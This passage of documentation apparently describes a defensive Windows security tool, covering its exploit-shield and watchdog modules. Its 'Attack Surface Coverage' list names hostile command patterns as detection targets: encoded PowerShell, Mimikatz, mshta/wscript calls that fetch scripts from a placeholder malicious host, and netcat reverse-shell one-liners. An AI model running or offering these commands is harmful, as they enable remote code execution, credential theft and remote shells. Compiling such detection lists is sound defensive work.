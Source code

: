 ### 6. ExploitShield.cs - Memory-Based Exploit Protection
**Purpose**: Blocks buffer overflows and code injection attacks

**Advanced Capabilities**:
- **Memory Protection**: Applies additional protection to executable regions
- **Exploit Detection**: Identifies shellcode and exploit patterns
- **Buffer Overflow Monitoring**: Detects stack overflow attempts
- **Code Neutralization**: Overwrites malicious code with harmless instructions
- **Protection Injection**: Injects defensive code into processes

**Protected Against**:
- **Buffer Overflows**: Stack and heap overflow detection
- **Shellcode**: Common exploit payload patterns
- **Code Injection**: Reflective DLL injection, process hollowing
- **Exploit Tools**: Metasploit, custom exploit frameworks

### 7. WatchdogCore.cs - Self-Healing System
**Purpose**: Monitors and restarts modules if killed or hijacked

**Advanced Capabilities**:
- **Module Monitoring**: Continuous status checking of all modules
- **Heartbeat System**: Detects module failures and timeouts
- **Automatic Restart**: Self-healing module recovery
- **Process Integrity**: Monitors for process intrusion attempts
- **Mutex Protection**: Ensures module exclusivity

**Self-Healing Features**:
- **Max Restart Attempts**: 5 attempts per module
- **Heartbeat Timeout**: 30 seconds
- **Restart Cooldown**: 60 seconds between attempts
- **Process Intrusion Detection**: Monitors for suspicious access
- **Full System Recovery**: Restarts all modules if compromised

## 🎯 Attack Surface Coverage

### PowerShell Attacks
- **Base64 encoded commands**: `powershell -enc`
- **Expression execution**: `Invoke-Expression`, `IEX`
- **Mimikatz**: `Invoke-Mimikatz`
- **Reflective injection**: `Invoke-ReflectivePEInjection`

### Script Execution
- **MSHTA remote**: `mshta http://malicious.com/script.hta`
- **WScript remote**: `wscript http://malicious.com/script.js`
- **CScript remote**: `cscript http://malicious.com/script.vbs`

### Network Tools
- **Reverse shells**: `nc.exe -e cmd`, `ncat -e powershell`
- **Telnet**: `telnet -e cmd`
- **Remote execution**: `psexec`, `wmic process call`

